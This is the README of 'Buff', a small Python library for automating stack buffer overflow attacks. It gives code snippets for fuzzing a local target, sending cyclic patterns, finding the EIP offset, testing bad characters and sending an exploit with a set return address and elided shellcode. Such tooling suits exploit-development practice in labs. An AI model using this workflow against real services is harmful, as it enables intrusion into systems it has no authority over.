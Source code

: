 <h1 align="center">What is Buff?</h1>  


<p align="center">
    <img src="https://raw.githubusercontent.com/the-robot/buff/master/images/gigachad.png" | width=200>
</p>

<p align="center">A simple BOF library I wrote under an hour to help me automate with BOF attack.</p>
<p align="center">It comes with fuzzer and a generic method to generate exploit easily.</p>

<br/>

# Usage

## Fuzzer
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))
runner.fuzz()
```

## Sending Pattern
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))
runner.sendPattern()
```

## Find Pattern Offset
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

BUFFER_SIZE = 1100
offset = buff.generator.findPatternOffset(BUFFER_SIZE, "v1Av")
print(offset)
```

## Sending Bad Characters
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

runner.setBufferSize(2400)
runner.setEipOffset(1978)
runner.sendBadChars()
```

## Sending Exploit
```python
import buff

runner = buff.Buff(target = ("127.0.0.1", 1337))

# Set Buffer Size
runner.setBufferSize(2400)

# Set Eip offset
runner.setEipOffset(1978)

# Set return address
eip_address = "\xaf\x11\x50\x62"
runner.setEipAddress(eip_address)

# Set exploit
exploit = ("\xdb\xde.....")
runner.setExploit(exploit)

# Set padding
runner.setPaddingSize(16)

runner.sendExploit()
```
